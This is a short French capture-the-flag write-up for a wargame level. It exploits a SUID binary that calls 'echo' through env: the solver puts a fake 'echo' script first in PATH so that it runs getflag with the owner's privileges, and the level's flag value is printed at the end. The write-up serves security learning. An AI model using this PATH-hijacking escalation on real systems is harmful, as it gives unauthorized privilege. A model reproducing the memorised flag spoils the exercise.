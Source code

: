 # LEVEL 03

1. Un simple `ls -l` pour voir ce qu'il y a:
```
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
C'est un binary avec des [sticky rigths](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)

2. On test `./level03`:
```
Exploit me
```
Humm ok then!

3. On check ce qu'il se passe dans ce binaire avec la [commande string](https://www.javatpoint.com/linux-strings-command#:~:text=Linux%20strings%20command%20is%20used,text%20from%20an%20executable%20file.)
```
strings level03
strings level03 | grep "Exploit me"
```
```
/usr/bin/env echo Exploit me
```
4. Le fichier a les sticky rights du flag04, on va donc essayer de lui faire `echo` autre chose, genre ...`getflag`
5. Il faut trouver un dossier où notre user actuel a les droits de creer un fichier. On trouve: `/var/crash/`
6. On va creer une fausse commande `echo` pour remplacer l'ancienne (cf [Linux env command](https://www.computerhope.com/unix/uenv.htm#:~:text=env%20is%20a%20shell%20command,without%20modifying%20the%20current%20one.)):
```
which getflag
export PATH=/var/crash:$PATH
echo "getflag > /var/crash/flag" > /var/crash/echo
chmod +x /var/crash/echo
./level03
cat /var/crash/flag
```
## ⚡ Flag
`qi0maab88jeaj46qoumi7maus`
